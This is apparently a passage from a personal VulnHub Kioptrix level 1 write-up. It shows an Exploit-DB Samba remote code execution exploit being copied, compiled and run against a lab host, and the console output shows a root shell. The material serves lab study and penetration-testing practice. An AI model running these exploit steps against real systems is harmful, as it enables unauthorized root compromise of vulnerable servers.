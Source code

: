 	  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
		  URL: https://www.exploit-db.com/exploits/10
		 Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
	File Type: C source, ASCII text

	Copied to: /root/vulnHub/kioptrix1/192.168.1.104/exploit/samba/10.c


	┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/samba]
	└─# gcc 10.c -o exploit
	┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/samba]
	└─# ./exploit -b 0 -c 192.168.1.1 $ip
	samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
	--------------------------------------------------------------
	+ Bruteforce mode. (Linux)
	+ Host is running samba.
	+ Worked!
	--------------------------------------------------------------
	*** JE MOET JE MUIL HOUWE
	Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
	uid=0(root) gid=0(root) groups=99(nobody)
	whoami
	```
	![](images/Pasted%20image%2020220123164752.png)





# Privilege Escalation
## Root - Via
- Already root by running the service exploits


---
Tags: #tcp/139-445-smb/exploit 

---
